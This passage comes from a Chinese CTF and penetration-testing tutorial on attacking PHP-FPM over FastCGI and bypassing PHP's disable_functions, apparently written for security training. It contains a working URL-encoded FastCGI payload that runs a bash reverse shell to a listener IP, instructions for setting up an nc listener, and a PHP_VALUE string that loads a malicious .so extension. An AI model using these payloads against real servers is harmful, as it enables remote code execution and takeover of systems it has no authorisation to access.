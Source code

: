 ```python
```

并在 vps 上开启一个 nc 监听，用于接收反弹的shell：

![image-20210502111019876](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a693b1b41f81ece00e9c1c6cc9f2aa800194ef27.png)

最后构造 url 发送 payload 即可：

```python
/?file=ftp://aaa@192.168.43.247:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

![image-20210502111056517](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-656472f7a843e746735ed392f667b970184f850c.png)

如下图所示，命令执行成功，并成功反弹Shell：

![image-20210502111135087](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6b3de99025fc49d042ab9e22ac29923216ed792c.png)

通过加载恶意 .so 实现 RCE 绕过 Disable\_Dunctions
---------------------------------------

我们在渗透测试中常常会遇到目标环境设置了 disable\_functions 的情况，`disable_functions` 这个选项是 PHP 加载的时候就确定了并且我们没有权限通过 `php_value` 选项对其进行修改，但是 LD\_PRELOAD 绕过 disable\_functions 的方法给了我们思路。即我们可以通过加载恶意 .so 扩展的方法实现系统命令的执行，从而一举绕过 disable\_functions 对我们的限制。

有时候常见的攻击 PHP-FPM 的方法并不能成功实现代码执行，但我们可以通过加载恶意 .so 扩展的方法实现系统的命令执行。我们知道 LD\_PRELOAD 绕过 disable\_functions 大致就是把我们编译出来的恶意的 .so 文件加载到环境变量中去执行，从而实现执行系统命令。

LD\_PRELOAD 是通过 putenv() 把so文件加载到环境变量中再去调用。那么我们 Fastcgi 也完全可以做同样的事，只需要通过 `PHP_VALUE` 给 php.ini 添加一个 extender 扩展就行了。

```php
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
```

下面我们通过 [\[2021 蓝帽杯\]one\_Pointer\_php](https://buuoj.cn/challenges#%5B%E8%93%9D%E5%B8%BD%E6%9D%AF%202021%5DOne%20Pointer%20PHP) 这道 CTF 例题来演示攻击过程。

该可以通过 PHP 数组溢出绕过限制实现 eval() 任意代码执行，但是题目的PHP环境还设置了以下两个限制：

- disable\_functions：

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9d689a8123d6ef122ab767b183b5547ebd6ade0d.png)

过滤了各种命令执行函数，但是像 scandir、file\_get\_contents、file\_put\_contents 等目录和文件操作函数没有被过滤

- open\_basedir

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ad9652b73dcab510f620234783ace8df1531abb2.png)
